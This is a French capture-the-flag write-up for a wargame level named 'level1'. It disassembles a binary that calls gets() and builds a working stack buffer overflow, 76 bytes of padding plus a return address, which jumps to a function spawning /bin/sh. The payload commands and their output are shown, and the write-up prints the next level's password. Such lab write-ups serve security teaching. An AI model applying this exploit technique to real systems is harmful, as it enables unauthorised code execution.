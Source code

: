 # Level1

On observe un executable a la racine `level1`

```bash
$ ./level1
Hello World

$ python -c 'print "A"*100' | ./level1
Segmentation fault (core dumped)
```

On cherche donc a comprendre ce que fait l'executable

```bash
$ gdb level1 -q
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:   push   ebp
   0x08048481 <+1>:   mov    ebp,esp
   0x08048483 <+3>:   and    esp,0xfffffff0
   0x08048486 <+6>:   sub    esp,0x50
   0x08048489 <+9>:   lea    eax,[esp+0x10]
   0x0804848d <+13>:  mov    DWORD PTR [esp],eax
   0x08048490 <+16>:  call   0x8048340 <gets@plt>
   0x08048495 <+21>:  leave
   0x08048496 <+22>:  ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir un idee plus clair de `level1`

```bash
$ scp -P 4242 -r level1@192.168.56.102:/home/user/level1/level1 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level1
```

_resultat sauvegarde dans [source.md](source.md)_

On peut remarquer que `undefined auStack80 [76]`, on peut essayer de remplir la place qu'y nous etes aloue

```bash
$ python -c 'print "A"*75' | ./level1

$ python -c 'print "A"*76' | ./level1
Illegal instruction (core dumped)

$ python -c 'print "A"*77' | ./level1
Illegal instruction (core dumped)

$ python -c 'print "A"*78' | ./level1
Segmentation fault (core dumped)
```

- `python -c 'print "A"*75'` est notre taille aloue maximum (75 + 1 = 76 pour le `\n` automatique du print de python)

- `76` a `79'`, on ecrit pardessus EBP sauvegarde

On remarque aussi, grace a `Cutter` qu'il y a une fonction `run` bien pratique colle a main qui fait un appel a `/bin/sh`

```bash
run ();
0x08048444      push    ebp
0x08048445      mov     ebp, esp
0x08048447      sub     esp, 0x18
0x0804844a      mov     eax, dword [stdout]
0x0804844f      mov     edx, eax
0x08048451      mov     eax, str.Good..._Wait_what
0x08048456      mov     dword [stream], edx
0x0804845a      mov     dword [nitems], 0x13
0x08048462      mov     dword [size], 1
0x0804846a      mov     dword [esp], eax
0x0804846d      call    fwrite
0x08048472      mov     dword [esp], str.bin_sh
0x08048479      call    system
0x0804847e      leave
0x0804847f      ret

int main (int argc, char **argv, char **envp);
0x08048480      push    ebp
0x08048481      mov     ebp, esp
0x08048483      and     esp, 0xfffffff0
0x08048486      sub     esp, 0x50
0x08048489      lea     eax, [s]
0x0804848d      mov     dword [esp], eax
0x08048490      call    gets
0x08048495      leave
0x08048496      ret
0x08048497      nop
```

On a une porte d'entre, plus une clef. Plus qu'a rassembler tout ca en meme temps

```bash
$ python -c 'print "A"*76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

_Hmm..._

Le programme se ferme avant que l'on ai le temps de faire quoi que ce soit.

Mais grace a `cat`, nous avons un moyen de retarder la fermeture de `level1`

```bash
$ (python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
Ctrl+D
Segmentation fault (core dumped)

level1:$ su level2
Password:

level2:$
```

`https://beta.hackndo.com/buffer-overflow/`
